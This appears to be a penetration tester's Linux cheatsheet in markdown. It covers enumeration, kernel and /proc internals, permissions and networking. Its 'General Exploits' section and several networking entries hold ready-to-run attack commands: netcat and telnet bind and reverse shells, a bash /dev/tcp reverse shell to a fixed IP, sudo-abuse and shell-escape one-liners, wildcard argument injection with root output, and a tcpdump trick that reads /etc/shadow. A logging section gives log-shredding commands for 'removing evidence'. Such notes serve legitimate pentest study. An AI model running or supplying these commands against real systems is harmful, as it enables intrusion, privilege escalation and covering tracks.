



## Quick Reference

- Bash cheatsheet: <https://devhints.io/bash.html>
- Archiving/compressing: <https://null-byte.wonderhowto.com/how-to/linux-basics-for-aspiring-hacker-archiving-compressing-files-0166153/>

### General Information

- System Information
    ```bash
    cat /proc/net/dev
    lspci
    ip link show
    ip addr show

    lscpu
    cat /proc/cpuinfo
    ```
- File information: `file <filename>`
- Shared library dependencies: `ldd <filename>`
- Searching:
  - With database: `updatedb ; locate sbd.exe`
  - Within PATH: `which sbd` `whereis sdb`
  - Complex:
    ```bash
    find  /  -­‐name  sbd*
    find / --name sdb* --exec file {} \;
    ```
  - Search for hidden (dot) files`find / -type d -name ".*"`
- Mounting Devices:
    ```bash
    mount -t <filesystemtype> <location>
    mount -t /dev/cdrom /media
    umount /dev/cdrom
    ```
- Distribution
    ```
    cat /etc/issue
    cat /etc/*-release
    cat /etc/lsb-release  ### Debian based
    cat /etc/redhat-release   ### Redhat based
    ```
- Environment
    ```
    cat /etc/profile
    cat /etc/bashrc
    cat ~/.bash_profile
    cat ~/.bashrc
    cat ~/.bash_logout
    env
    set
    ```
- Printers: `lpstat -a`
- Sys calls: `/usr/include /i386-linux-gnu/asm/unistd_32.h`
- New line in command line
    ```
    $ echo "abc[CTRL+M]
    def"
    ```
- Change password (one liner): `echo root:password | /usr/sbin/chpasswd`
- Bash Variables:
  - `$0` - The name of the Bash script
  - `$1` - $9 - The first 9 arguments to the Bash script
  - `$#` - Number of arguments passed to the Bash script
  - `$@` - All arguments passed to the Bash script
  - `$?` - The exit status of the most recently run process
  - `$$` - The process ID of the current script
  - `$USER` - The username of the user running the script
  - `$HOSTNAME` - The hostname of the machine
  - `$RANDOM` - A random number
  - `$LINENO` - The current line number in the script



- Cron:
  - Shortcuts:
    - @yearly
    - @annually
    - @monthly
    - @weekly
    - @daily
    - @midnight
    - @noon
    - @reboot


### Logging 

- `locate rsyslog`
- Config: `/etc/rsyslog.conf`
- Rotation: `/etc/logrotate.conf`
- Removing evidence: `shred -f -n 10 /var/log/auth.log.*`
- Disable: `service rsyslog stop`

### Kernel 

- eBPF is a revolutionary technology that can run sandboxed programs in the Linux kernel without changing kernel source code or loading kernel modules. By making the Linux kernel programmable, infrastructure software can leverage existing layers, making them more intelligent and feature-rich without continuing to add additional layers of complexity to the system.: <https://ebpf.io/>
- To communicate with the kernel, different UNIX systems use different interfaces
  - <https://opensource.com/article/19/3/virtual-filesystems-linux>
  - Source of VFS: <https://www.tldp.org/LDP/khg/HyperNews/get/fs/vfstour.html>
    - filesystem, must implement the open(), read(), and write() methods
    - kernel treats the generic filesystem as an abstract interface, and these big-three functions are "virtual," with no default definition
    - filesystems like ext4, NFS, and /proc all provide definitions of the big-three functions in a C-language data structure called [file_operations](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/include/linux/fs.h)
    - filesystems extend and override the VFS functions in the familiar object-oriented way
    - The function definitions that belong to the VFS base type itself are found in the fs/*.c files in kernel source, while the subdirectories of fs/ contain the specific filesystems. <https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/fs>
    - 
    - Listing VFSs: `mount | grep -v sd | grep -v :/`
  - tempfs (/tmp)
    - <https://wiki.archlinux.org/index.php/Tmpfs>
    - By default, a tmpfs partition has its maximum size set to half of the available RAM
    - Under systemd, /tmp is automatically mounted as a tmpfs even though no entry is specified in /etc/fstab. 
    - `tmp.mount` systemd unit. 
  - procfs (/proc)
    - <https://man7.org/linux/man-pages/man5/procfs.5.html>
    - a snapshot into the instantaneous state of the kernel and the processes that it controls for userspace
    - special in-memory filesystem
    - used to present process information, kernel processes and other system information in a hierarchical file-like structure
    - This layer is expected to provide convenient access to the said information, acting as an interface to internal data structures in the kernel
    - `/proc/sys` is where the settings that are configurable via the `sysctl` command are accessible to userspace
    - File sizes are zero (/proc/meminfo). The truth is that the kernel gathers statistics about memory when a process requests them from /proc
    - Structure:
      - <https://www.thegeekdiary.com/understanding-the-proc-file-system/>
      - <https://en.wikipedia.org/wiki/Procfs#Linux>
      - <http://www.noah.org/wiki//proc>
    - Implementation details:
      - <https://www.kernel.org/doc/Documentation/filesystems/proc.txt>
      - <https://elixir.bootlin.com/linux/v5.8-rc4/source/fs/proc>
      - <https://github.com/torvalds/linux/tree/master/fs/proc>
    - Important items:
      - `/proc/PID/cmdline`:  which contains the command which originally started the process
        - Read confidential information passed in as arguments
      - `/proc/PID/environ`: a file containing the names and contents of the environment variables that affect the process
        - Read confidential information passed in as environment variables (specially useful in containerized environments, since this is a common practice)
      - `/proc/PID/mem`: a binary image representing the process's virtual memory, can only be accessed by a ptrace'ing process 
        - Useful in  [dumping process memory](https://shafiqvinales.wordpress.com/2017/09/14/dump-a-linux-processs-memory-to-file/), but with [limitations](https://stackoverflow.com/a/12980874)
      - `/proc/PID/maps`: the memory map showing which addresses currently visible to that process are mapped to which regions in RAM or to files
        - Useful in binary exploitation (offset calculations, etc.)
      - `/proc/cpuinfo`: containing information about the CPU
        - Identifying CPU architecture. Useful in binary exploitations to create matching payloads.
      - `/proc/version`: containing the Linux kernel version, distribution number, gcc version number used to build the kernel and any other pertinent information relating to the version of the kernel currently running
        - Identifying operating system related information architecture. Useful in binary exploitations to create matching payloads.
      - `/proc/net/`: a directory containing useful information about the network stack, in particular /proc/net/nf_conntrack, which lists existing network connections
        - Get information about network stack and connections.
      - `/proc/modules`: containing a list of the kernel modules currently loaded . It gives some indication (not always entirely correct) of dependencies. 
        - Useful in binary exploitations to create matching payloads.
      - `/proc/mounts`: a symlink to self/mounts which contains a list of the currently mounted devices and their mount points 
        - Get information about the mounted devices (for example: through LFI)
      - `/proc/kcore`: represents the physical memory of the system (kernel virtual address space region of memory) and is stored in the ELF core file format. (examined by gdb, objdump)
        - `/dev/kmem`: gives access to the kernel's virtual memory space
        - `/dev/mem`: gives access to physical memory.
      - `/proc/kmsg`: used to hold messages generated by the kernel (picked by /bin/dmesg).
  - Sysfs
    - Structured approach to clean-up procfs
    - expose the readable and writable properties of what the kernel calls "kobjects" to userspace
    - purpose of kobjects is reference-counting: when the last reference to a kobject is deleted, the system will reclaim the resources associated with it
      - <https://www.kernel.org/doc/Documentation/kobject.txt>
    - constitutes most of the kernel's famous "[stable ABI to userspace](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/Documentation/ABI/stable)" which no one may ever, [under any circumstances, "break."](https://lkml.org/lkml/2012/12/23/75) 
    - eBPF (extended Berkeley Packet Filter) consists of a virtual machine running inside the kernel that privileged users can query from the command line
    - running eBPF tools on a booted system shows instead what the kernel actually does
    - <https://github.com/iovisor/bcc/tree/master/tools>
    - [vfscount](https://github.com/iovisor/bcc/blob/master/tools/vfscount_example.txt) or [vfsstat](https://github.com/iovisor/bcc/blob/master/tools/vfsstat.py)
    - Used by udev to access device and device driver information
    - Sysfs helped clean up the proc file system because much of the hardware information has been moved from proc to sysfs
    - Important items:
      - /sys/bloc: information about block devices
      - /sys/bus: physical bus type supported in the kernel
      - /sys/class: devices classes registered
      - /sys/devices: global device hierarchy of all devices on the system
      - /sys/firmware: firmware objects and attributes
      - /sys/module: subdirectories for each module that is loaded into the kernel
      - /sys/power: system power state can be controlled from this directory.
  - sysctl
    - Usable to change values in `/proc/sys` directory
    - View current kernel configuration: `sysctl -a`
    - `echo 1 > /proc/sys/net/ipv4/ip_forward`
    - `sysctl -w net.ipv4.ip_forward=1`
    - To make permanent changes, add to `/etc/sysctl.conf`
- General information:
  ```
  cat /proc/version
  uname -a
  uname -mrs
  rpm -q kernel
  dmesg | grep Linux
  ls /boot | grep vmlinuz-
  ```
- Kernel tuning:
  - Temporary: `sysctl`
    - `sysctl -w net.ipv4.ip_forward=1`
  - Permanent: `/etc/sysctl.conf`
  - View configuration: `sysctl -a | less`
  - View  configuration files for the installed modprobe modules:
    ```
    ls -l /etc/modprobe.d/
    ls -R /lib/modules/$( uname -r )/kernel
    ```
- Kernel Modules:
  - loadable kernel modules, or LKMs. - Linux has the capability of adding some modules to the kernel without going through rebuilding kernel
  - rootkit embeds itself into the kernel of the operating systems, often through these LKMs
  - Insert module: 
    - `insmod`
    - `modprobe -a <module name>`
  - Remove module: `modprobe -r <module name>` `rmmod`
  - List modules: `modprobe -l <module name>` `lsmod`
  - Module info: `modinfo bluetooth`
  - View logs: `dmesg` 
- Solaris
  - (IOCTLs) are used for communication between user-mode applications and the kernel
    - List IOCTLs on Solaris Kernel: 
      - `cd on-src/usr/src/uts`
      - `grep -rnw -e _IOR -e _IOW -e _IOWR *` 

### Startup Process


> <https://null-byte.wonderhowto.com/how-to/linux-basics-for-aspiring-hacker-using-start-up-scripts-0168875/>

- Run levels
    ```
    0 - halt the system
    1 - single user mode (minimal services)
    2 - multi-user mode
    3 - multi-user mode
    4 - multi-user mode
    5 - multi-user mode
    6 - reboot the system
    ```
- Init.d Process
  - Has process ID: 1
  - `/etc/init.d` scripts with 755 permission
  - init process then hands over the boot-up processes to `rc.d` daemon
- rc.local - Script to start necessary processes in the background when the system boots up: `/etc/init.d/rc.local`
- You can add services for the rc.d script to run at startup using the update-rc.d command.
  - `update-rc.d <name of the script or service> <remove|defaults|disable|enable>`
  - `update-rc.d postgresql defaults` Run at startup
- GUI for startup tasks: `rcconf`

### Daemons

- `inetd`, `xinetd` - Inetd always runs in the background and it then decides when to start and stop other daemons.
- `rlinetd`
    ```
    rlinetd.conf
    /etc/rlinetd.d
    ```
  - Disable unnecessary demons
  - Configure IPs that can access a demon
  
### Managing Disks

- Managing Hard Disks
  - `hda` for hard disks.
  - `sda` for newer SATA disks (SCSI).
  - Partitions within `sda` are `sda1`, `sda2`, ...
- Basic disk Information: `df -h`
- Partitions on disk: `fdsisk -l`
- Block device information: `lsblk`
- Editing and displaying partitions: `parted` / `cfdisk`
  - `(parted) print`
  - `(parted) select /dev/sdb`
- Change HDD parameters: `hdparm`
- Information about mounts: `df -h`
- Check errors: `fsck` after `umount`. `-p` to auto fix.

- Debugfs
  - Simple-to-use RAM-based file system specially designed for debugging purposes
  - Mount file system (usable to access `/root` by only being in `disk` group)
    ```
    debugfs /dev/sda1
    ```
- `dd if=/dev/sdb of=/root/flashcopy` (block size 512)
- `dd if=/dev/media of=/root/flashcopy bs=4096 conv:noerror`

### Permissions 



- Linux automatically assigns base permissions—usually 666 for files and 777 for directorie
  - `umask` method represents the permissions you want to remove from the base permissions on a file or directory to make them more secure
  - `umask` number is subtracted from the permissions number to give the new permissions status
  - Debian systems, the umask is preconfigured to 022
    - 644 for files
    - 755 for directories


- File Permissions:
    ```
    0 = No Permission
    1 = Execute
    2 = Write
    4 = Read
    ```
    ```
    r w x
    4 2 1 = 7
    ```
- Setuid - Set User ID - The process's effective user ID gets set to that of the program file itself (rather than that of the user running it).
  - `S` - just the setuid bit
  - `s` - setuid bit and execute x
  - Dir - No effect on DIRs
  - Find SUID: `find . -perm /4000`
- Setgid - Set Group ID - The process's effective group ID gets set to that of the program file (rather than that of the user's primary group).
  - Dir - any files created in that directory will have the same group as that directory
  - <http://www.tutonics.com/2012/12/linux-file-permissions-chmod-umask.html>
  - Find GUID: `find . -perm /2000`
- Find SUID / SGID: `find . -perm /6000`
- Find and ls SUID / SGID: `find "$DIRECTORY" -perm /6000 -exec ls -la {} \;`
- Searching world writable files: `find / -perm -w ~ -type l -ls 2?/dev/null`
- Check file permissions of `/etc/passwd` and `/etc/shadow`
- Find writable files: `find -type f -maxdepth 1 -writable`


### Processes 

- Running processes: `ps aux` `ps -ef` `top`
- Tree of processes (processes & threads): `pstree -aclp`
- Process priority: `nice -n -20 <command>` `renice <nice-value> <pid>`
  - `-20` is highest priority
  - `19` is lowest priority
- Memory map for a process: `cat /proc/1234/maps` `gdb> info proc mappings` `pmap -d 1234`
- `/proc`
    - `/proc/<id>/environ` environment variables
    - `/proc/<id>/cmdline` command line args/command used to run the process
    - `/proc/<id>/maps` memory map
    - `/proc/<id>/fd` open file descriptors
- Trace system and library calls
  - `ltrace`
  - `strace`
- Access control
  - `access` - Check permissions for the UID and GID of the process (executable file owner / group)
    - Check is done using the calling process's real UID and GID, rather than the effective IDs as is done when actually attempting an operation (e.g., open(2)) on the file.
- Process ID of a port: `fuser -n tcp (PORT NUMBER)` `ps aux | grep $(fuser -n tcp 45295 | awk '{print $2}')`

### Services

- List of Services: `cat /etc/services`
- Commons service configurations
    ```
    cat /etc/syslog.conf
    cat /etc/chttp.conf
    cat /etc/lighttpd.conf
    cat /etc/cups/cupsd.conf
    cat /etc/inetd.conf
    cat /etc/apache2/apache2.conf
    cat /etc/my.conf
    cat /etc/httpd/conf/httpd.conf
    cat /opt/lampp/etc/httpd.conf
    ls -aRl /etc/ | awk '$1 ~ /^.*r.*/
    ```
- Check if certain service is up: `update-­‐rc.d ssh enable`
- Auto start a service: `update-­‐rc.d ssh enable`
- Systemd services: `/lib/systemd/system/snapd.service`
- Systemd socket unit file:
    ```
    [Socket]
    ListenStream=/run/snapd.socket
    ListenStream=/run/snapd-snap.socket
    SocketMode=0666
    ```
  - `0666` - Allow any process to connect and communicate with the socket.

### Networking

- Interface Information
    ```
    /sbin/ifconfig -a
    cat /etc/network/interfaces
    cat /etc/sysconfig/network
    ```
- Network configuration
    ```
    cat /etc/resolv.conf
    cat /etc/sysconfig/network
    cat /etc/networks
    iptables -L
    hostname
    dnsdomainname
    ```
- Monitor network communication
    ```
    lsof -i
    lsof -i :80
    grep 80 /etc/services
    netstat -antup
    netstat -antpx
    netstat -tulpn
    chkconfig --list
    chkconfig --list | grep 3:on
    last
    w
    ```
- Cached IP and Mac Information
    ```
    arp -e
    route
    /sbin/route -nee
    ```
- Change IP
    ```
    ifconfig eth0 192.168.1.115
    ifconfig eth0 192.168.1.115 netmask 255.255.255.0 broadcast 192.168.1.255
    ```
- Shell with built-in tools
    ```
    nc -lvp 4444### Attacker. Input (Commands)
    nc -lvp 4445### Attacker. Ouput (Results)
    telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445### On the targets system. Use the attackers IP!
    ```
  - <https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/>
- `AF_UNIX` - Used to communicate between processes on the same machine
- `AF_INET` and `AF_INET6` - Used for processes to communicate over a network connection.
-  Interact with AF_UNIX Socket
    ```
    nc -U /run/snapd.socket
    GET / HTTP/1.1
    Host: 127.0.0.1
    ```
- Process ID of a port: `fuser -n tcp (PORT NUMBER)` `ps aux | grep $(fuser -n tcp 45295 | awk '{print $2}')`

**Tools**

- Ship - one-stop-shop for basic network reconnaissance and addressing: <https://github.com/xtonousou/ship.git> <https://null-byte.wonderhowto.com/how-to/linux-basics-for-aspiring-hacker-using-ship-for-quick-handy-ip-address-information-0181593/> 

### Tools
- grep
  - Color word root: `grep --color root /etc/passwd`
  - OR: `grep -e how -e to -e forge *.txt`
  - <https://www.howtoforge.com/tutorial/linux-grep-command/>

| Option     | Details     |
| :--------- | :---------- |
| `-i`       | Ignore case |
| `-r` `-R`  | Recursive  `grep -R "example" /etc/apache2/` |
| `-w`       | Match words |
| `-e`       | Regex match `grep -w -e 'word1|word2' /path/to/file`|
| `-n`       | Line number |
| `-c`       | Count |
| `-v`       | Invert  |
| `-x`       | Exact match  |
| `-l`   | File names with match  |
| `-L`   | File names without match  |
  
- iptables
  - count packets sent and received
    ```
    iptables -Z && iptables -F
    iptables -I INPUT 1 -s IP -j ACCEPT
    iptables -I OUTOUT 1 -d IP -j ACCEPT
    ip tables -vn -L
    ```
- Netcat
  - Chat
    ```
    nc -nlvp 4444
    nc -nv <ip> 4444
    ```
  - File Transfer
    ```
    nc -nlvp 4444 > file.exe  
    nc -nv <ip> 4444 < file.exe
    ```
  - Bind Shell
    - VICTIM (server): `nc -lvp 4444 -e cmd.exe`
    - ATTACKER (client): `nc -nv <IP Address> 4444`
  - Reverse Shell
    - ATTACKER (server): `nc -lvp 4444`
    - VICTIM (client): `nc -nv <IP Address> 4444 -e cmd.exe`
  - NCAT for increased security
    - VICTIM (server): `ncat -lvp 4444 -e cmd.exe --allow 192.168.30.5 --ssl`
    - ATTACKER (client): `ncat -nv <IP Address> 4444 --ssl`
  - Port Scanning
    - TCP Connect Port Scan: `nc -nvv -w 1 -z <ip> 1-65550`
    - UDP Scan: `nc -unvv -w 1 -z <ip> 1-65550`
- tcpdump
  - Packet Capture
    ```
    tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]
    tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21
    ```
  - Open a PCAP: `tcpdump -­r password_cracking_filtered.pcap`
  - Cut only IP addresses from the traffic: `tcpdump -­r password_cracking_filtered.pcap  | awk-­‐F" " '{print $3}' | sort -­‐u | head`
  -  Filter Destination or Source
    ```
    tcpdump -n src host <ip> -­r password_cracking_filtered.pcap
    tcpdump -n dst host <ip> ‐r password_cracking_filtered.pcap
    tcpdump -n port <port> -­r password_cracking_filtered.pcap
    ```
  - Advanced Header Filtering: `tcpdump -A -n 'tcp[13] = 24' -­‐r password_cracking_filtered.pcap`
    
  - Other important flags
    - `-nn` stop DNS and service names lookup (performance+)
    - `-X` and `-XX` can be used to print each packet in hex and ascii
    - `-A` print packets in ASCII
    - `-S` to print absolute sequence numbers
    - `-s` can be used to increase the default snap-length from 262144 to higher
    - `-s` 0 to capture full packet
  - References:
    - <https://hackertarget.com/tcpdump-examples/>


## General Exploits

**Enumeration Scripts**

- BeRoot: <https://github.com/AlessandroZ/BeRoot/tree/master/Linux>
- unix-privesc-check: <https://github.com/pentestmonkey/unix-privesc-check>
- linuxprivchecker.py: <http://www.securitysift.com/download/linuxprivchecker.py>
- LinEnum: <https://github.com/rebootuser/LinEnum>
- Lse.sh: <https://github.com/diego-treitos/linux-smart-enumeration>
- LinPEAS: <https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite>

**Escape shell**

- Information about environment:
    ```
    env
    echo $PATH
    echo /usr/local/rbin/*
    ```
- List read only variables (check If PATH or SHELL is writable): `export -p`
- VI / VIM: `:set shell=/bin/bash` `:shell` `:sh` | `:! /bin/bash`| `:r /root/root.txt` | `:e /root/root.txt`
- AWK: `awk 'BEGIN {system("/bin/sh")}'`
- Find: `find / -name blahblah -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;`
- More / Less / Man: `! /bin/sh` `!/bin/sh` `!bash`
- Tee: `echo "evil script code" | tee script.sh`
- Languages
    ```bash
    python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()
    perl -e 'exec "/bin/sh";'
    perl: exec "/bin/sh";
    ruby: exec "/bin/sh"
    lua: os.execute('/bin/sh')
    irb(main:001:0> exec "/bin/sh"
    ```
- Copy files into `$PATH`
- Copy file into `HOME` (scp/ftp)
- Some restricted shells will start by running some files in an unrestricted mode (If your `.bash_profile` is executed in an restricted mode and it's editable)
- If `HISTFILE` and `HISTSIZE` are writable:
  - Set `HISTFILE` to the file you want to overwrite (preferably an executable)
  - Set `HISTSIZE` to 0 and then back to 100,
  - Then execute the lines you want in your shell script
- <https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells>
- <https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/>

**Wildcards**

| Char | Description    |
| :--  | :------------- |
| *    |  Any number of characters, including none. |
| ?    |  Any single character. |
| [ ]  |  Set of characters, any one of which may match a single character at that position. |
| -    |  Used within [ ] denotes a range of characters. |
| ~    |  At the beginning of a word expands to the name of your home directory.  If you append another user's login name to the character, it refers to that user's home directory. |

- Using wildcard to inject arguments
    ```bash
    # ls -al
    drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR1
    drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR2
    -rw-rw-r--.  1 leon   leon      0 Oct 28 17:03 file1.txt
    -rw-rw-r--.  1 leon   leon      0 Oct 28 17:03 file2.txt
    -rw-rw-r--.  1 nobody nobody    0 Oct 28 16:38 -rf

    # rm *
    # ls -al
    -rw-rw-r--.  1 nobody nobody    0 Oct 28 16:38 -rf

    # strace rm *
    execve("/bin/rm", ["rm", "DIR1", "DIR2", "file1.txt", "file2.txt", "-rf"], [/* 25 vars */]) = 0
    ```
- chown
    ```nash
    --reference=RFILE
            use RFILE's owner and group rather than specifying OWNER:GROUP values
    ```
    ```bash
    # ls -la
    -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
    -rw-rw-r--.  1 user user  117 Oct 28 17:35 inc.php
    -rw-rw-r--.  1 user user  111 Oct 28 17:38 index.php
    -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php

    # chown -R nobody:nobody *.php

    # ls -la
    -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
    -rw-rw-r--.  1 leon leon  117 Oct 28 17:35 inc.php
    -rw-rw-r--.  1 leon leon  111 Oct 28 17:38 index.php
    -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
    ```
- chmod
    ```bash
    --reference=RFILE
                use RFILE's mode instead of MODE values
    ```
    ```bash
    # ls -la
    -rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
    -rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
    -rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
    -rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php

    # chmod 000 *

    # ls -la
    -rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
    -rwxrwxrwx.  1 user user   117 Oct 28 17:36 inc.php
    -rwxrwxrwx.  1 user user   111 Oct 28 17:38 index.php
    -rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
    ```
- tar command Execution
    ```bash
    --checkpoint[=NUMBER]
        display progress messages every NUMBERth record (default 10)

    --checkpoint-action=ACTION
        execute ACTION on each checkpoint
    ```
    ```bash
    # ls -la
    -rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
    -rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
    -rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
    -rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

    #  tar cf archive.tar *
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    ```
- Rcync command Execution
    ```bash
    -e, --rsh=COMMAND           specify the remote shell to use
        --rsync-path=PROGRAM    specify the rsync to run on remote machine
    ```
    ```bash
    # ls -al
    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
    -rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

    # rsync -t *.c foo:src/
    rsync: connection unexpectedly closed (0 bytes received so far) [sender]
    rsync error: error in rsync protocol data stream (code 12) at io.c(601) [sender=3.0.8]

    # ls -al
    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
    -rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
    -rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

    # cat shell.c
    /usr/bin/id > shell_output.txt

    # cat shell_output.txt
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    ```
- Practice
  - HTB - Joker
- Create a script, setuid bit and then use this attack to `chown` the script to gain prev-esc


**Exploits Related to Tools**

- Tar: `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash`
    ```bash
    echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.15.99/8082 0>&1' > a.sh
    tar -cvf a.tar a.sh
    sudo tar -xvf a.tar --to-command /bin/bash
    ```
- Zip: `sudo zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"`
- Strace: `sudo strace -o/dev/null /bin/bash`
- tcpdump
    ```bash
    echo $’id\ncat /etc/shadow’ > /tmp/.shell
    chmod +x /tmp/.shell
    sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell-Z root
    ```
- nmap
    ```
    echo "os.execute('/bin/sh')" > /tmp/shell.nse
    sudo nmap --script=/tmp/shell.nse
    ```
- scp: `sudo scp -S /path/yourscript x y`
- except: `sudo except spawn sh then sh`
- nano: `sudo nano -S /bin/bash`
  - type your command and hit CTRL+T
- git: `sudo git help status`
  - type: !/bin/bash
- gdb/ftp: `sudo ftp`
  - type : !/bin/sh

**Other** 

- File execution due to not using quotes
    ```bash
    # Files in `SLAPPER_FILES` list will get executed:
    for i in ${SLAPPER_FILES}; do
    if [ -f ${i} ]; then
        file_port=$file_port $i
        # Correction: file_port="$file_port $i"
        STATUS=1
    fi
    done
    ```
  - Ref: <https://www.exploit-db.com/exploits/33899>
- Connect to existing TMUX session: `tmux -S /.devs/dev_sess​`
- Screenshot
  - Need `video` group access
